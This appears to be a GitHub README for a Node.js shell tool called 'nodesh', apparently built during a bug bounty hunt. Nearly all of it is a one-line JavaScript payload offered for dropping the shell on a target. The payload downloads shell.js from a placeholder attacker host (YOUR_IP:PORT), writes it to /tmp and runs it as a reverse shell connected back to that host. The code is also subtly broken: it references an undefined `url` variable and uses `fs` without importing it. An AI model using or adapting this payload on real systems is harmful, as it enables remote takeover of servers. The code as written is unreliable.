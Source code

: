 # nodesh
During a bug bounty hunt, I came across a site hosted inside a Docker container with no shell inside whatsoever, only the technology stack (in this case, Node.js) that this site was powered by. Because Node has some powerful file system enumeration APIs, I was able to write a simple shell from scratch using them, and to speed up development, decided to open source it.

Fellow ethical hackers and/or penetration testers: This tool is here for those of you who find something similar. No shell on the target, no problem; simply use the following payload to drop this and send it back:

```javascript
(function() { const { URL } = require('url'); const http = require('http'); const dest = "/tmp/shell.js"; const parsedUrl = new URL("http://YOUR_IP:PORT/shell.js"); const request = http.get(url, (response) => { if (response.statusCode !== 200) { console.log(`Download failed with status code ${response.statusCode}`); return; }; const file = fs.createWriteStream(dest); response.pipe(file);  file.on('finish', () => { console.log("Shell dropped successfully"); file.close(); (function() {var net = require("net"), cp = require("child_process"), sh = cp.spawn("/path/to/node", ["/tmp/shell.js"]); var client = new net.Socket(); client.connect(PORT, "YOUR_IP", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})(); }); file.on('error', (err) => { fs.unlink(dest, () => console.log(`Error downloading file: ${err}`)); }); }); } )();
```
